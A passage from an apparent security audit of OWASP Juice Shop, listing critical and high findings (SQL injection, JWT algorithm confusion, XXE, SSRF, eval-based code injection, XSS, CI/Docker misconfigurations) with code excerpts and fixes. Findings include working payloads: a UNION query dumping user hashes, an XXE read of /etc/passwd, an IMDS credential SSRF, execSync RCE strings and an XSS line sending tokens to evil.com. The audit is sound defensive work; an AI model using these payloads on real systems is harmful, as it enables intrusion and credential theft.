<a id="t-010"></a><a id="f-010"></a>
#### F-010 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/login.ts:34`

**Issue:** `routes/login.ts:34` interpolates `req.body.email` and `req.body.password` directly into a raw `models.sequelize.query()` call: `SELECT * FROM Users WHERE email = '${req.body.email}' AND password = '${security.hash(req.body.password)}' AND deletedAt IS NULL`. Submitting `' OR '1'='1` as the email causes the WHERE clause to always evaluate true, returning the first row - which is the seeded admin account.

The attacker is logged in as admin without knowing any credential. Unauthenticated attacker obtains a signed JWT token for the admin account, granting full application privilege.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `routes/login.ts:34` passes `req.body.email` unescaped into a template-literal SQL string, bypassing Sequelize parameterisation entirely.

```typescript
// routes/login.ts:34

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-054](#m-054) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:54`

**Issue:** `expressJwt({ secret: publicKey })` at `lib/insecurity.ts:54` does not pass an `algorithms` allowlist. `express-jwt@0.1.3` passes the algorithm from the token header directly to `jsonwebtoken.verify()`.

Two attacks follow: (1) An attacker sets `alg: 'none'` and strips the signature - the token verifies without a secret. (2) An attacker knowing the RSA public key sets `alg: 'HS256'` and signs the token with the public key as the HMAC secret; `verify()` interprets the public key as an HMAC secret and accepts the forged token.

Unauthenticated attacker forges a JWT claiming admin or any other user identity; all routes protected by `security.isAuthorized()` are bypassed.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `isAuthorized()` returns `expressJwt({ secret: publicKey } as any)` with no `algorithms: ['RS256']` constraint - the `as any` cast suppresses the TypeScript type that would otherwise mandate the field.

```typescript
// lib/insecurity.ts:54
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-056](#m-056) — Enforce JWT signature and algorithm verification

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/search.ts:23`

**Issue:** `routes/search.ts:23` builds: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`. Submitting `%')) UNION SELECT email,password,username,role,NULL,NULL,NULL,NULL,NULL FROM Users--` as `q` extracts all user rows including hashed passwords and roles.

Because the hash is `MD5` (unsalted), password cracking is fast. The 200-character length cap does not prevent exploitation - a UNION payload fits within 200 chars.

Attacker dumps all `Users` rows (email, `MD5`-hashed password, role) and the full `sqlite_master` schema via a single unauthenticated request.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `routes/search.ts:23` interpolates `req.query.q` (bounded to 200 chars) directly into a LIKE clause without binding, enabling UNION extraction.

```typescript
// routes/search.ts:23
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-061](#m-061) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · XML External Entity (XXE)

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** At `routes/fileUpload.ts:83`, uploaded XML is parsed with `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })`. The `noent: true` flag instructs libxmljs2 to expand external entities.

An attacker uploads an XML file with `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>`. The parser fetches and inlines `/etc/passwd` into the document string, which is then reflected in the HTTP 410 error response body at line 87: `'B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(xmlString, 400)`.

An unauthenticated attacker can read arbitrary files readable by the `Node.js` process, including `/etc/passwd`, private keys, or .env files containing secrets.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `libxml.parseXml()` at `routes/fileUpload.ts:83` passes `noent:true`, and the resulting xmlString is reflected in the error response body at line 87.

```typescript
// routes/fileUpload.ts:83
      try {
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
        res.status(410)
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❶ [M-062](#m-062) — Disable XML external entity (XXE) resolution

**Classification:** Error Information Disclosure · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Server-Side Request Forgery (SSRF)

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/profileImageUrlUpload.ts:24`

**Issue:** At `routes/profileImageUrlUpload.ts:24`, `fetch(url)` is called with `url = req.body.imageUrl` directly. The only filter applied before the fetch is a regex check for challenge-flag patterns at line 20 (`url.match(/(.)*solve\/challenges\/server-side(.)*/)`) - this does not prevent SSRF to internal services.

An authenticated attacker submits `{"imageUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}` (AWS IMDS), `http://localhost:3000/api/Users` (internal API), or any private-range IP. The response body is written verbatim to disk at line 29 as a user profile image file.

An authenticated attacker can exfiltrate AWS/GCP/Azure IMDS credentials, probe internal services, or read localhost endpoints by abusing the image-fetch as a server-side proxy.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `routes/profileImageUrlUpload.ts:24` calls fetch(url) with `req.body.imageUrl` unfiltered except for a challenge-pattern regex; no IP allowlist, SSRF deny-list, or redirect-follow limit is applied.

```typescript
// routes/profileImageUrlUpload.ts:24
      const loggedInUser = security.authenticatedUsers.get(req.cookies.token)
      if (loggedInUser) {
        try {
          const response = await fetch(url)
          if (!response.ok || !response.body) {
            throw new Error('url returned a non-OK status code or an empty body')
          }
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ❶ [M-063](#m-063) — Validate and allowlist outbound request targets

**Classification:** Error Information Disclosure · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-04](#c-04) - B2B REST API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** An authenticated attacker (or one with a forged JWT - see b2b-api-003) submits a POST `/b2b/v2/orders` request with a crafted `orderLinesData` payload such as `safeEval.constructor.constructor('return process.mainModule.require("child_process").execSync("id")')()`. The `sandbox` object at line 21 exposes `safeEval` (the `notevil` function) as a property.

`notevil` 1.3.3 does not block access to `Function.prototype.constructor`, so the attacker traverses `safeEval → Function → Function('...')()` to obtain the host `Node.js` `process` object. From there, arbitrary OS commands execute in the context of the `Node.js` process user.

Full `Node.js` process compromise: arbitrary file read/write, OS command execution, environment variable exfiltration (including other service credentials), and potential lateral movement to backend infrastructure.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `sandbox = { safeEval, orderLinesData }` at line 21 injects the `notevil` function itself into the evaluated context, creating a reachable path from user input to `Function.prototype.constructor`.

```typescript
// routes/b2bOrder.ts:23
      try {
        const sandbox = { safeEval, orderLinesData }
        vm.createContext(sandbox)
        vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
        res.json({ cid: body.cid, orderNo: uniqueOrderNumber(), paymentDue: dateTwoWeeksFromNow() })
      } catch (err) {
        if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-064](#m-064) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/userProfile.ts:62`

**Issue:** `eval(code)` at `routes/userProfile.ts:62` executes the content of the `username` field when it matches the `#{...}` pattern. A user sets their username to `#{process.mainModule.require('child_process').execSync('id').toString()}` through `/profile` POST.

The next `GET /profile` request evaluates this expression in the `Node.js` process context. Because `eval` runs in the same V8 context as the server, the attacker gains arbitrary code execution under the server's OS user - full server compromise.

Authenticated user achieves arbitrary remote code execution on the server, enabling full host compromise, data exfiltration, lateral movement, and persistent backdoor installation.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `username = eval(code)` at line 62 where `code = username.substring(2, username.length - 1)` is an attacker-controlled string stored in the database and evaluated on every profile view.

```typescript
// routes/userProfile.ts:62
        if (!code) {
          throw new Error('Username is null')
        }
        username = eval(code) // eslint-disable-line no-eval
      } catch (err) {
        username = '\\' + username
      }
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-065](#m-065) — Remove server-side evaluation of untrusted input

**Classification:** Injection · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/chatbot.ts:248`

**Issue:** Without an explicit algorithm allowlist, attackers can forge tokens with `alg:none` (older lib versions) or use the public key as an HMAC secret to mint valid signatures.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

```typescript
// routes/chatbot.ts:248

async function getUserFromJwt (token: string): Promise<User | null> {
  return await new Promise((resolve) => {
    jwt.verify(token, security.publicKey, (err: VerifyErrors | null, decoded: JwtPayload | string | undefined) => {
      if (err !== null || !decoded || isString(decoded)) {
        resolve(null)
      } else {
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-053](#m-053) — Enforce JWT signature and algorithm verification

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/verify.ts:117`

**Issue:** Without an explicit algorithm allowlist, attackers can forge tokens with `alg:none` (older lib versions) or use the public key as an HMAC secret to mint valid signatures.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

```typescript
// routes/verify.ts:117
      return
    }

    jwt.verify(token, security.publicKey, (err: jwt.VerifyErrors | null) => {
      if (err === null) {
        challengeUtils.solveIf(challenge, () => {
          return hasAlgorithm(token, algorithm) && hasEmail(decoded as { data: { email: string } }, email)
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-053](#m-053) — Enforce JWT signature and algorithm verification

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Cross-Site Scripting

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/administration/administration.component.ts:78`

**Issue:** The `AdministrationComponent` loads all user feedback via the admin API and renders each comment using `feedback.comment = this.sanitizer.bypassSecurityTrustHtml(feedback.comment)`. Any customer who submits a feedback comment containing `<script>` or event-handler markup will have that payload execute in the browser of every administrator who opens the administration panel.

This is a high-value stored XSS target because administrators have elevated privileges - their sessions, once hijacked, allow full data access via the admin API. Admin session token exfiltration and account takeover via stored XSS in the administration panel; compromised admin JWT grants access to all user data and admin-only API endpoints.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `administration.component.ts:78` calls `bypassSecurityTrustHtml` on user-supplied feedback.comment strings displayed in the admin panel.

```typescript
// frontend/src/app/administration/administration.component.ts:78
      next: (feedbacks) => {
        this.feedbackDataSource = feedbacks
        for (const feedback of this.feedbackDataSource) {
          feedback.comment = this.sanitizer.bypassSecurityTrustHtml(feedback.comment)
        }
        this.feedbackDataSource = new MatTableDataSource(this.feedbackDataSource)
        this.feedbackDataSource.paginator = this.paginatorFeedb
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❶ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Cross-Site Scripting

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:132`

**Issue:** The `trustProductDescription()` method calls `this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)` for every product in the search result list. An attacker with the ability to inject a crafted product description into the backend (e.g. via the admin product-management API or a SQLi-based data poisoning) can embed arbitrary JavaScript payloads - `<script>fetch('https://evil.com?t='+localStorage.token)</script>` - that execute in every authenticated user's browser when they view the search results page.

Because the JWT is in `localStorage` (not an `httpOnly` cookie), the injected script can silently exfiltrate the session token. Session token exfiltration from `localStorage` for every user who loads the search page; attacker achieves persistent account takeover.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `search-result.component.ts:132` explicitly bypasses Angular's HTML sanitizer for all product descriptions returned by the backend, rendering raw HTML including script elements.

```typescript
// frontend/src/app/search-result/search-result.component.ts:132

  trustProductDescription (tableData: any[]) { // vuln-code-snippet neutral-line restfulXssChallenge
    for (let i = 0; i < tableData.length; i++) { // vuln-code-snippet neutral-line restfulXssChallenge
      tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description) // vuln-code-snippet vuln-line restfulXssChallenge
    } // vuln-code-snippet neutral-line restfulXssChallenge
  } // vuln-code-snippet neutral-line restfulXssChallenge

```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❶ [M-059](#m-059) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Cross-Site Scripting

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:170`

**Issue:** The `filterTable()` method assigns `this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)` where `queryParam` comes directly from `this.route.snapshot.queryParams.q`. The `searchValue` is rendered in the search-result template as trusted HTML.

An attacker crafts a URL such as `/#/search?q=` and sends it to a victim. When the victim opens the link, the query string is reflected into the DOM without encoding, executing the attacker's payload in the context of the victim's authenticated session.

Any authenticated user who follows a malicious link has their session token stolen; combined with the localStorage storage pattern this leads to full account takeover.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `search-result.component.ts:170` passes the raw URL query parameter `q` through `bypassSecurityTrustHtml` and binds the result to the template, creating a reflected XSS vector.

```typescript
// frontend/src/app/search-result/search-result.component.ts:170
        this.io.socket().emit('verifyLocalXssChallenge', queryParam)
      }) // vuln-code-snippet hide-end
      this.dataSource.filter = queryParam.toLowerCase()
      this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam) // vuln-code-snippet vuln-line localXssChallenge xssBonusChallenge
      this.gridDataSource.subscribe((result: any) => {
        if (result.length === 0) {
          this.emptyState = true
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❶ [M-060](#m-060) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟠 High (29)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Cleartext Storage of Sensitive Data

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Data Layer  ·  **Location:** `models/index.ts:38`

**Issue:** `models/index.ts:38` configures Sequelize with `storage: 'data/juiceshop.sqlite'`. The SQLite file is stored in plaintext in the container filesystem.

Any attacker or insider who obtains container storage access - through a container escape, misconfigured volume mount, or backup media exfiltration - reads the complete `Users` table (including email addresses, `MD5`-hashed passwords, TOTP secrets, roles, and `lastLoginIp`) without decryption. Container storage compromise yields all user records, financial data, and order history in plaintext.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `models/index.ts:38` stores the SQLite database at `data/juiceshop.sqlite` with no encryption option configured.

```typescript
// models/index.ts:38
  },
  transactionType: Transaction.TYPES.IMMEDIATE,
  storage: 'data/juiceshop.sqlite',
  logging: false
})
```

**Fix:** ❷ [M-078](#m-078) — Stop storing sensitive data in cleartext

**Classification:** Cryptographic Failures · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Incorrect Permission Assignment

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `.github/workflows/ci.yml:1`

**Issue:** The CI/CD workflow has no top-level 'permissions:' block, so it inherits the repository default GITHUB_TOKEN scope (often write-all). A compromised step or action in the workflow can use the token to push code, create releases, or approve PRs.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - A sensitive resource is created with permissive default permissions.

```yaml
// .github/workflows/ci.yml:1
name: "CI/CD Pipeline"
on:
  push:
```

**Fix:** ❷ [M-050](#m-050) — Apply least-privilege permissions

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `server.ts:310`

**Issue:** State-changing operations on sensitive resources MUST require a proven session. A registration line that lacks any auth marker either trusts the URL itself or relies on a downstream check that the static signature cannot prove exists.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Route-level authorization middleware is missing on a mutating endpoint.

```typescript
// server.ts:310
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), addMemory())
```

**Fix:** ❷ [M-051](#m-051) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Missing Input Validation orderLinesData Before

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - B2B REST API  ·  **Location:** `routes/b2bOrder.ts:19`

**Issue:** The handler at `routes/b2bOrder.ts:19` assigns `body.orderLinesData || ''` directly to a variable and passes it to `safeEval` at line 23 without any type check, length limit, or content validation. An attacker can supply a non-string value (e.g. a deeply nested object) that causes `notevil` to crash with an unhandled exception, or supply an arbitrarily large string to exhaust `notevil`'s AST parser memory before the eval timeout fires.

Combined with the sandbox-escape path (b2b-api-001), the absence of pre-validation means the attacker has full control over the expression text fed into the evaluator. Attacker controls the exact string fed into the `notevil` evaluator, maximizing the exploit surface for sandbox escape () and memory exhaustion attacks.

**Evidence:** ✓ verified - `const orderLinesData = body.orderLinesData || ''` at line 19 accepts arbitrary types and lengths from the request body with no schema, type, or size enforcement before use as an eval argument.

```typescript
// routes/b2bOrder.ts:19
  return ({ body }: Request, res: Response, next: NextFunction) => {
    if (utils.isChallengeEnabled(challenges.rceChallenge) || utils.isChallengeEnabled(challenges.rceOccupyChallenge)) {
      const orderLinesData = body.orderLinesData || ''
      try {
        const sandbox = { safeEval, orderLinesData }
```

**Fix:** ❷ [M-069](#m-069) — Validate orderLinesData type and length before passing to the eval path

**Classification:** Injection · [CWE-20](https://cwe.mitre.org/data/definitions/20.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Unrestricted File Upload

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:68`

**Issue:** The `checkFileType` function determines the file type solely by parsing the file extension from `file.originalname` using `substr(file.originalname.lastIndexOf('.') + 1)`. An attacker renames a PHP webshell as `shell.xml` or `shell.pdf` and uploads it.

The extension check passes; the file buffer is processed by the XML or general-purpose handler. An attacker can upload a file with an allowed extension (.xml, .pdf) whose content is a malicious payload; server-side processing treats it as the declared type and may execute or disclose it.

**Evidence:** ✓ verified - `routes/fileUpload.ts:68` extracts file type from file.originalname extension only; `routes/profileImageFileUpload.ts:24` uses `fileType.fromBuffer()` showing the safer pattern is available but not applied here.

```typescript
// routes/fileUpload.ts:68

function checkFileType ({ file }: Request, res: Response, next: NextFunction) {
  const fileType = file?.originalname.substr(file.originalname.lastIndexOf('.') + 1).toLowerCase()
  challengeUtils.solveIf(challenges.uploadTypeChallenge, () => {
    return !(fileType === 'pdf' || fileType === 'xml' || fileType === 'zip' || fileType === 'yml' || fileType === 'yaml')
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ❷ [M-071](#m-071) — Replace extension-based file type check with magic-byte validation using fileType.fromBuffer

**Classification:** Broken Access Control · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Data Layer  ·  **Location:** `models/index.ts:39`

**Issue:** Neither `routes/login.ts` nor any middleware observed in the data layer records structured security events (login success/failure, logout, password change, admin role assignment) to an append-only audit store. `models/index.ts` configures Sequelize with `logging: false`, disabling even the ORM query log.

An attacker who exploits the SQL injection at `routes/login.ts:34` to authenticate as admin, exfiltrates user records via `routes/search.ts:23`, and later clears their session leaves no forensically recoverable trail. Post-incident forensics cannot reconstruct which accounts were accessed, when, or what data was exfiltrated.

**Evidence:** ✓ verified - `models/index.ts:39` sets `logging: false`, and no structured audit event emission was found across login, search, or recycle routes.

```typescript
// models/index.ts:39
  transactionType: Transaction.TYPES.IMMEDIATE,
  storage: 'data/juiceshop.sqlite',
  logging: false
})
AddressModelInit(sequelize)
```

**Fix:** ❷ [M-072](#m-072) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Rate-Limit Bypass

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `server.ts:346`

**Issue:** The `rateLimit()` middleware on `/rest/user/reset-password` uses a `keyGenerator` that reads `headers['X-Forwarded-For'] ?? ip` at `server.ts:346`.

Combined with `app.enable('trust proxy')` at line 342, the server trusts the client-supplied `X-Forwarded-For` header unconditionally. Attacker brute-forces password reset answers or 2FA TOTP codes without being rate-limited; account takeover follows for any account with a guessable security answer.

**Evidence:** ✓ verified - `keyGenerator ({ headers, ip }) { return headers['X-Forwarded-For'] ?? ip }` at line 346 reads the raw `X-Forwarded-For` header without parsing for the rightmost (trusted) IP, enabling IP spoofing for rate-limit keys.

```typescript
// server.ts:346
    windowMs: 5 * 60 * 1000,
    max: 100,
    keyGenerator ({ headers, ip }: { headers: any, ip: any }) { return headers['X-Forwarded-For'] ?? ip } // vuln-code-snippet vuln-line resetPasswordMortyChallenge
  }))
  // vuln-code-snippet end resetPasswordMortyChallenge
```

**Fix:** ❷ [M-073](#m-073) — Remove attacker-controlled X-Forwarded-For from rate-limit key; rely on socket IP or right-most trusted proxy IP

**Classification:** Insecure File Handling · [CWE-348](https://cwe.mitre.org/data/definitions/348.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Uses --unsafe-perm npm install flag

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:5`

**Issue:** 'npm install --unsafe-perm' runs postinstall lifecycle scripts with elevated (root) privileges inside the build container. Any compromised dependency can exploit this to gain root access during the build, enabling exfiltration of build secrets or supply-chain code injection.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-074](#m-074) — Drop unnecessary privileges in build and runtime

**Classification:** Injection · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Third-party GitHub Action not pinned

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `.github/workflows/codeql-analysis.yml:23`

**Issue:** Three github/codeql-action steps (init, autobuild, analyze) reference '@v3' tags. A tag is mutable - a compromised or hijacked action tag update would execute attacker code in the CodeQL scanning job which has security-events: write scope.

**Evidence:** ✓ verified

```yaml
// .github/workflows/codeql-analysis.yml:23
      uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 #v4.2.2
    - name: Initialize CodeQL
      uses: github/codeql-action/init@v3
      with:
